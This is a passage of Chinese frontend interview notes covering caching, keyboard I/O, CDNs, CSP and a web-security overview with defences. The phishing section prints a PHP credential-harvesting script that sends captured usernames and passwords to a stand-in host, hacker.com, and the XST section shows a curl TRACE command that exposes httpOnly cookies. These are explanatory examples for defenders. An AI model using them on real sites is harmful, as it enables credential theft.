   [几个常见面试题，工作中也经常用到](https://mp.weixin.qq.com/s/IvWGkm5pn3vjbLUB-SvXkQ)

2. 详解：

    使用 Vary: User-Agent，根据 UA 进行缓存。

    但最好不要出现这种情况，PC 端和移动端如果是两套代码，建议用两个域名，理由如下:

    * nginx 判断是否移动端容易出错
    * 对缓存不友好

### 键盘输入过程

1. 参考链接：

   [键盘敲入 A 字母时，期间发生了什么....](https://juejin.im/post/6864158680028774407#heading-2)

2. 详解：

* 设备控制器

  统一管理输入输出设备：键盘、鼠标、显示器、网卡、硬盘、打印机、音响等

  设备控制器里有芯片，它可执行自己的逻辑，也有自己的寄存器，用来与 CPU 进行通信

  控制器是有三类寄存器：

  1. 数据寄存器，CPU 向 I/O 设备写入需要传输的数据，比如要打印的内容是「Hello」，CPU 就要先发送一个 H 字符给到对应的 I/O 设备。
  2. 命令寄存器，CPU 发送一个命令，告诉 I/O 设备，要进行输入/输出操作，于是就会交给 I/O 设备去工作，任务完成后，会把状态寄存器里面的状态标记为完成。
  3. 状态寄存器，目的是告诉 CPU ，现在已经在工作或工作已经完成，如果已经在工作状态，CPU 再发送数据或者命令过来，都是没有用的，直到前面的工作已经完成，状态寄存标记成已完成，CPU 才能发送下一个字符和命令。

  输入输出设备可分为两大类：

  1. 块设备，把数据存储在固定大小的块中，每个块有自己的地址，硬盘、USB 是常见的块设备。

    可读写的数据缓冲区：

    * CPU 写入数据到控制器的缓冲区时，当缓冲区的数据囤够了一部分，才会发给设备。
    * CPU 从控制器的缓冲区读取数据时，也需要缓冲区囤够了一部分，才拷贝到内存。

  2. 字符设备，以字符为单位发送或接收一个字符流，字符设备是不可寻址的，也没有任何寻道操作，鼠标是常见的字符设备。

  CPU 与设备的控制寄存器和数据缓冲区进行通信两个方法：

  1. 端口 I/O，每个控制寄存器被分配一个 I/O 端口，可以通过特殊的汇编指令操作这些寄存器，比如 in/out 类似的指令。
  2. 内存映射 I/O，将所有控制寄存器映射到内存空间中，这样就可以像读写内存一样读写数据缓冲区。

* I/O 控制方式

  与CPU通信：

  1. 轮询等待
  2. 软件/硬件中断(DMA（Direct Memory Access）优化频繁读写)

* 设备驱动程序

  设备驱动程序会提供统一的接口给操作系统

* 通用块层

  通用块层是处于文件系统和磁盘驱动中间的一个块设备抽象层，它主要有两个功能：

  1. 向上为文件系统和应用程序，提供访问块设备的标准接口，向下把各种不同的磁盘设备抽象为统一的块设备，并在内核层面，提供一个框架来管理这些设备的驱动程序
  2. 通用层还会给文件系统和应用程序发来的 I/O 请求排队，接着会对队列重新排序、请求合并等方式，也就是 I/O 调度，主要目的是为了提高磁盘读写的效率

  Linux 内存支持 5 种 I/O 调度算法，分别是：

  1. 没有调度算法：常用在虚拟机 I/O 中
  2. 先入先出调度算法：最简单
  3. 完全公平调度算法：它为每个进程维护了一个 I/O 调度队列，并按照时间片来均匀分布每个进程的 I/O 请求
  4. 优先级调度:优先级高的 I/O 请求先发生， 它适用于运行大量进程的系统，像是桌面环境、多媒体应用等
  5. 最终期限调度算法:分别为读、写请求创建了不同的 I/O 队列，这样可以提高机械磁盘的吞吐量，并确保达到最终期限的请求被优先处理，适用于在 I/O 压力比较大的场景，比如数据库等

* 存储系统 I/O 软件分层

  1. 文件系统层，包括虚拟文件系统和其他文件系统的具体实现，它向上为应用程序统一提供了标准的文件访问接口，向下会通过通用块层来存储和管理磁盘数据。
  2. 通用块层，包括块设备的 I/O 队列和 I/O 调度器，它会对文件系统的 I/O 请求进行排队，再通过 I/O 调度器，选择一个 I/O 发给下一层的设备层。
  3. 设备层，包括硬件设备、设备控制器和驱动程序，负责最终物理设备的 I/O 操作。

  存储系统的 I/O 是整个系统最慢的一个环节，所以 Linux 提供了不少缓存机制来提高 I/O 的效率:页缓存、索引节点缓存、目录项缓存、缓冲区

* 键盘敲入字母时，期间发生了什么？

  当用户输入了键盘字符，键盘控制器就会产生扫描码数据，并将其缓冲在键盘控制器的寄存器中

  紧接着键盘控制器通过总线给 CPU 发送中断请求

  CPU 收到中断请求后，操作系统会保存被中断进程的 CPU 上下文，然后调用键盘的中断处理程序

  键盘的中断处理程序是在键盘驱动程序初始化时注册的，那键盘中断处理函数的功能就是从键盘控制器的寄存器的缓冲区读取扫描码，再根据扫描码找到用户在键盘输入的字符，如果输入的字符是显示字符，那就会把扫描码翻译成对应显示字符的  ASCII 码，比如用户在键盘输入的是字母 A，是显示字符，于是就会把扫描码翻译成 A 字符的 ASCII 码。

  得到了显示字符的 ASCII 码后，就会把 ASCII 码放到「读缓冲区队列」，接下来就是要把显示字符显示屏幕了，显示设备的驱动程序会定时从「读缓冲区队列」读取数据放到「写缓冲区队列」，最后把「写缓冲区队列」的数据一个一个写入到显示设备的控制器的寄存器中的数据缓冲区，最后将这些数据显示在屏幕里。

  显示出结果后，恢复被中断进程的上下文

### CDN加速原理

1. 参考链接：

   [前端必会：CDN加速原理](https://mp.weixin.qq.com/s/Df9kYNquukRCwwocgRblcQ)

   [阿里云CDN](https://help.aliyun.com/document_detail/27101.html)

2. 详解：

  * 什么是 CDN

    CDN(Content Delivery Network)内容分发网络。通过在现有的Internet中增加一层新的CACHE(缓存)层，将网站的内容发布到最接近用户的网络边缘的节点，使用户可以就近取得所需的内容，提高用户访问网站的响应速度。从技术上全面解决由于网络带宽小、用户访问量大、网点分布不均等原因，提高用户访问网站的响应速度。

    CDN的工作原理就是将您源站的资源缓存到位于全球各地的CDN节点上，用户请求资源时，就近返回节点上缓存的资源，而不需要每个用户的请求都回您的源站获取，避免网络拥塞、缓解源站压力，保证用户访问资源的速度和体验。

  * CDN对网络的优化作用

    * 解决服务器端的“第一公里”问题
    * 缓解甚至消除了不同运营商之间互联的瓶颈造成的影响
    * 减轻了各省的出口带宽压力
    * 缓解了骨干网的压力
    * 优化了网上热点内容的分布

  * 使用了CDN缓存后的网站的访问过程

    未使用CDN时，DNS一直向上查找域名，再逐层返回域名授权dns记录，到达本地dns，会查询ip返回给客户端。

    使用CDN时，到达本地dns，向智能调度DNS查询域名的ip地址，智能调度DNS根据一定的算法和策略(比如静态拓扑，容量等),将最适合的CDN节点ip地址回应给LocalDns，再把ip返回给客户端。

  * CDN网络的组成要素

    * 智能调度DNS(比如f5的3DNS)

      就近返回服务器ip

    * 缓存功能服务

      负载均衡设备(如lvs,F5的BIG/IP)、内容Cache服务器(如squid）、共享存储

  * 名词解释

    * CNAME记录

      CNAME即别名( Canonical Name )

      可以用来把一个域名解析到另一个域名，当 DNS 系统在查询 CNAME 左面的名称的时候，都会转向 CNAME 右面的名称再进行查询，一直追踪到最后的 PTR 或 A 名称，成功查询后才会做出回应，否则失败。

      例如，你有一台服务器上存放了很多资料，你使用docs.example.com去访问这些资源，但又希望通过documents.example.com也能访问到这些资源，那么你就可以在您的DNS解析服务商添加一条CNAME记录，将documents.example.com指向docs.example.com，添加该条CNAME记录后，所有访问documents.example.com的请求都会被转到docs.example.com，获得相同的内容。

    * CNAME域名

      接入CDN时，在CDN提供商控制台添加完加速域名后，您会得到一个CDN给您分配的CNAME域名， 您需要在您的DNS解析服务商添加CNAME记录，将自己的加速域名指向这个CNAME域名，这样该域名所有的请求才会都将转向CDN的节点，达到加速效果。

    * 回源host

      回源host决定回源请求访问到源站上的具体某个站点

      例子1：源站是域名源站为www.a.com,回源host为www.b.com,那么实际回源是请求到www.a.com解析到的IP,对应的主机上的站点www.b.com

      例子2：源站是IP源站为1.1.1.1, 回源host为www.b.com,那么实际回源的是1.1.1.1对应的主机上的站点www.b.com

    * 协议回源

      回源时使用的协议和客户端访问资源时的协议保持一致，即如果客户端使用 HTTPS 方式请求资源，当CDN节点上未缓存该资源时，节点会使用相同的 HTTPS 方式回源获取资源；同理如果客户端使用 HTTP 协议的请求，CDN节点回源时也使用HTTP协议

    * 边缘节点

      用于缓存源站资源，以便快速响应不同地域用户请求的网络节点。

### CSP内容安全策略

1. 参考链接：

   [山月最近的面试总结](https://juejin.cn/post/6922229465468633095)

   [Content-Security-Policy](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy)

   [CSP: frame-ancestors](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors)

   [Would it be possible to embed this into an iframe?](https://github.com/jupyter/tmpnb/issues/263)

   [CSP策略及绕过方法](https://www.jianshu.com/p/f1de775bc43e)

   [CSP策略及绕过方法](https://blog.csdn.net/qq_35078631/article/details/73732951)

2. 详解：

  CSP 只允许加载指定的脚本及样式，最大限度地防止 XSS 攻击，是解决 XSS 的最优解。

  CSP 的设置根据加载页面时 http 的响应头 Content Security Policy 在服务器端控制。

  外部脚本可以通过指定域名来限制：Content-Security-Policy: script-src 'self'，self 代表只加载当前域名

  如果网站必须加载内联脚本 (inline script) ，则可以提供一个 nonce 才能执行脚本，攻击者则无法注入脚本进行攻击。Content-Security-Policy: script-src 'nonce-xxxxxxxxxxxxxxxxxx'

  github配置
  ```txt
  Content-Security-Policy: default-src 'none'; 
    base-uri 'self'; 
    block-all-mixed-content;
    connect-src 'self' uploads.github.com www.githubstatus.com collector.githubapp.com api.github.com www.google-analytics.com github-cloud.s3.amazonaws.com github-production-repository-file-5c1aeb.s3.amazonaws.com github-production-upload-manifest-file-7fdce7.s3.amazonaws.com github-production-user-asset-6210df.s3.amazonaws.com cdn.optimizely.com logx.optimizely.com/v1/events wss://alive.github.com; 
    font-src github.githubassets.com; 
    form-action 'self' github.com gist.github.com; 
    frame-ancestors 'none'; 
    frame-src render.githubusercontent.com; 
    img-src 'self' data: github.githubassets.com identicons.github.com collector.githubapp.com github-cloud.s3.amazonaws.com *.githubusercontent.com; 
    manifest-src 'self'; 
    media-src 'none'; 
    script-src github.githubassets.com; 
    style-src 'unsafe-inline' github.githubassets.com; 
    worker-src github.com/socket-worker.js gist.github.com/socket-worker.js
  ```

  样例：微信页面禁止非指定域名网页的嵌微信iframe
  ```txt
  Refused to frame 'https://mp.weixin.qq.com/' because an ancestor violates the following Content Security Policy directive: "frame-ancestors 'self' http://wx.qq.com https://wx.qq.com http://wx2.qq.com https://wx2.qq.com http://wx8.qq.com https://wx8.qq.com http://web.wechat.com https://web.wechat.com http://web1.wechat.com https://web1.wechat.com http://web2.wechat.com https://web2.wechat.com http://sticker.weixin.qq.com https://sticker.weixin.qq.com http://bang.qq.com https://bang.qq.com http://app.work.weixin.qq.com https://app.work.weixin.qq.com http://work.weixin.qq.com https://work.weixin.qq.com http://finance.qq.com https://finance.qq.com http://gu.qq.com https://gu.qq.com http://wzq.tenpay.com https://wzq.tenpay.com http://test.tcp.tencent.com https://test.tcp.tencent.com http://dev.tcp.tencent.com https://dev.tcp.tencent.com http://tcp.tencent.com https://tcp.tencent.com http://mail.qq.com https://mail.qq.com http://wx.mail.qq.com https://wx.mail.qq.com http://iwx.mail.qq.com https://iwx.mail.qq.com http://dev.mail.qq.com https://dev.mail.qq.com".
  ```

### 网络安全综述

1. 参考链接：

  [安全](https://eggjs.org/zh-cn/core/security.html)

  [Javascript \x 反斜杠x 16进制 编解码](https://www.cnblogs.com/xiaoqi/p/js-x-encode-decode.html)

  [JSONP 安全攻防技术](https://blog.knownsec.com/2015/03/jsonp_security_technic/)

  [Content Security Policy (CSP) 是什么？为什么它能抵御 XSS 攻击？](https://www.zhihu.com/question/21979782)

2. 详解：

  * XSS 攻击

    * 反射型的 XSS 攻击

      由于服务端接收到客户端的不安全输入，在客户端触发执行从而发起 Web 攻击

      在某购物网站搜索物品，搜索结果会显示搜索的关键词。搜索关键词填入alert代码, 点击搜索。页面没有对关键词进行过滤，这段代码就会直接在页面上执行，弹出 alert。

      * 防范方法

        1. 当网站需要直接输出用户输入的结果时，通过escape转义
        2. mvc网站输出的内容会提供给 JavaScript 来作为变量使用，对字符encode，对非白名单字符转为\x的形式，例如双引号为'\x22'

          ```js
          function decode(str){
            return str.replace(/\\x(\w{2})/g,function(_,$1){ return String.fromCharCode(parseInt($1,16)) });
          }
          function encode(str){
            return str.replace(/(\w)/g,function(_,$1){ return "\\x"+ $1.charCodeAt(0).toString(16) });
          }
          //_changeItemCrossLayer
          //\x5f\x63\x68\x61\x6e\x67\x65\x49\x74\x65\x6d\x43\x72\x6f\x73\x73\x4c\x61\x79\x65\x72
          ```

        3. mvc网站输出的内容会提供给 JavaScript 来作为json数据使用，将value值做第2点转义

    * 存储型的 XSS 攻击

      通过提交带有恶意脚本的内容存储在服务器上，当其他人看到这些内容时发起 Web 攻击。一般提交的内容都是通过一些富文本编辑器编辑的，很容易插入危险代码

      * 防范方法

        1. 将富文本（包含 HTML 代码的文本）当成变量直接在模版里面输出时，过滤脚本
        2. 在默认规则外的 tag 和 attr 都要被过滤掉，如data-xx

    * DOM型的 XSS 攻击

    * JSONP XSS

      1. JSONP 的 callback 参数意外截断js代码，特殊字符单引号双引号，换行符均存在风险。
      2. callback 参数恶意添加script标签，造成 XSS 漏洞。

      * 防范方法

        * callback 函数名词最长 50 个字符限制
        * callback 函数名只允许 [, ], a-zA-Z0123456789_, $, .，防止一般的 XSS，utf-7 XSS等攻击。

    * 其他 XSS 的防范方式

      1. CSP定义页面可以加载哪些资源，减少 XSS 的发生。

  * CSRF
  
    CSRF 攻击会对网站发起恶意伪造的请求

    * 防范方式

      1. Synchronizer Tokens：通过响应页面时将 token 渲染到页面上，在 form 表单提交的时候通过隐藏域提交上来。
      2. Double Cookie Defense：将 token 设置在 Cookie 中，在提交（POST、PUT、PATCH、DELETE 等）请求时提交 Cookie，并通过 header 或者 body 带上 Cookie 中的 token，服务端进行对比校验。
      3. Custom Header：信任带有特定的 header（例如 X-Requested-With: XMLHttpRequest）的请求。这个方案可以被绕过，所以 rails 和 django 等框架都放弃了该防范方式。
      4. 当我们的应用处于无法保证所有的子域名都受控的情况下，存放在 Cookie 中可能有被 CSRF 攻击的风险，可以将 token 存放到 Session 中。
      5. 忽略 JSON 请求(已废弃)，在 SOP 的安全策略保护下，基本上所有的现代浏览器都不允许跨域发起 content-type 为 JSON 的请求，因此我们可以直接放过类型的 JSON 格式的请求。JSON 请求可以通过 flash + 307 来攻破

  * XST

    Cross-Site Tracing，客户端发 TRACE 请求至服务器，如果服务器按照标准实现了 TRACE 响应，则在 response body 里会返回此次请求的完整头信息。通过这种方式，客户端可以获取某些敏感的头字段，例如 httpOnly 的 Cookie。

    服务器设置了一个 httpOnly 的 Cookie 为 1，在浏览器环境中，是无法通过脚本获取它的。

    发 TRACE 请求到服务器curl -X TRACE -b a=1 -i http://127.0.0.1:7001，并带上 Cookie，在响应体里可以看到完整的头信息，这样我们就绕过了 httpOnly 的限制，拿到了cookie=1，造成了很大的风险。

    * 防范方式

      禁止 trace，track，options 三种危险类型请求。

  * 钓鱼攻击
  
    1. url 钓鱼

      服务端未对传入的跳转 url 变量进行检查和控制，可能导致可恶意构造任意一个恶意地址，诱导用户跳转到恶意网站。 由于是从可信的站点跳转出去的，用户会比较信任，所以跳转漏洞一般用于钓鱼攻击，通过转到恶意网站欺骗用户输入用户名和密码盗取用户信息，或欺骗用户进行金钱交易； 也可能引发的 XSS 漏洞（主要是跳转常常使用 302 跳转，即设置 HTTP 响应头，Locatioin: url，如果 url 包含了 CRLF，则可能隔断了 HTTP 响应头，使得后面部分落到了 HTTP body，从而导致 XSS 漏洞）。

      * 防范方式

        1. 若跳转的 url 事先是可以确定的，包括 url 和参数的值，则可以在后台先配置好，url 参数只需传对应 url 的索引即可，通过索引找到对应具体 url 再进行跳转；
        2. 若跳转的 url 事先不确定，但其输入是由后台生成的（不是用户通过参数传入），则可以先生成好跳转链接然后进行签名；
        3. 若 1 和 2 都不满足，url 事先无法确定，只能通过前端参数传入，则必须在跳转的时候对 url 进行按规则校验：判断 url 是否在应用授权的白名单内。

    2. 图片钓鱼

      如果可以允许用户向网页里插入未经验证的外链图片，这有可能出现钓鱼风险。

      比如常见的 401钓鱼, 攻击者在访问页面时，页面弹出验证页面让用户输入帐号及密码，当用户输入之后，帐号及密码就存储到了黑客的服务器中。 通常这种情况会出现在中，系统不对$url是否在域名白名单内进行校验。

      攻击者可以在自己的服务器中构造以下代码：

      401.php：作用为弹出 401 窗口，并且记录用户信息。

      ```php
      <?php
          header('WWW-Authenticate: Basic realm="No authorization"');
          header('HTTP/1.1 401 Unauthorized');
              $domain = "http://hacker.com/fishing/";
              if ($_SERVER[sectech:'PHP_AUTH_USER'] !== null){
                  header("Location: ".$domain."record.php?a=".$_SERVER[sectech:'PHP_AUTH_USER']."&b=".$_SERVER[sectech:'PHP_AUTH_PW']);
              }
      ?>
      ```

      之后攻击者生成一个图片链接
      ```html
      
      ```

      当用户访问时，会弹出信息让用户点击，用户输入的用户名及密码会被黑客的服务器偷偷记录。

      * 防范方式

        url 过滤要解析 url 的地方,如a的href，img的src，其它地方不使用

    3. iframe 钓鱼

      通过内嵌 iframe 到被攻击的网页中，攻击者可以引导用户去点击 iframe 指向的危险网站，甚至遮盖，影响网站的正常功能，劫持用户的点击操作。

      * 防范方法

        X-Frame-Options 这个安全头防止 iframe 钓鱼。默认值为 SAMEORIGIN，只允许同域把本页面当作 iframe 嵌入。

        当需要嵌入一些可信的第三方网页时，可以关闭这个配置。

  * HTTP参数污染
  
    Http Parameter Pollution（HPP)，即 HTTP 参数污染攻击。在HTTP协议中是允许同样名称的参数出现多次，而由于应用的实现不规范，攻击者通过传播参数的时候传输 key 相同而 value 不同的参数，从而达到绕过某些防护的后果。

    * 防范方法

      在客户端传输 key 相同而 value 不同的参数时，强制使用第一个参数

  * 中间人攻击

    内容请求和获取时会经过许多中间人，主要是网络环节，充当内容入口的浏览器、路由器厂商、WIFI提供商、通信运营商，如果使用了代理、翻墙软件则会引入更多中间人。由于 HTTP 请求的路径、参数默认情况下均是明文的，因此这些中间人可以对 HTTP 请求进行监控、劫持、阻挡。

    * 防范方法

      HTTPS 做的就是给请求加密，让其对用户更加安全。还可避免本属于自己的流量被挟持。

      尽管 HTTPS 并非绝对安全，掌握根证书的机构、掌握加密算法的组织同样可以进行中间人形式的攻击。不过HTTPS是现行架构下最安全的解决方案，并且它大幅增加了中间人攻击的成本。

      对于 HTTPS 来讲，还有一点要注意的是 HTTP 严格传输安全（HSTS），如果不使用 HSTS，当用户在浏览器中输入网址时没有加 HTTPS，浏览器会默认使用 HTTP 访问

      默认关闭了 hsts Strict-Transport-Security。使得 HTTPS 站点不跳转到 HTTP，如果站点支持 HTTPS，请一定要开启。

  * SSRF

    Server-Side Request Forgery(SSRF) 攻击，攻击者可以发起网络请求访问或者操作内部网络的资源。
     
    常见于开发者在服务端直接请求客户端传递进来的 URL 资源，一旦攻击者传入一些内部的 URL 即可发起 SSRF 攻击。

    * 防范方法

      内网 IP 黑名单，对解析域名后得到的 IP 做过滤，禁止访问内部 IP 地址来达到防范 SSRF 攻击的目的。
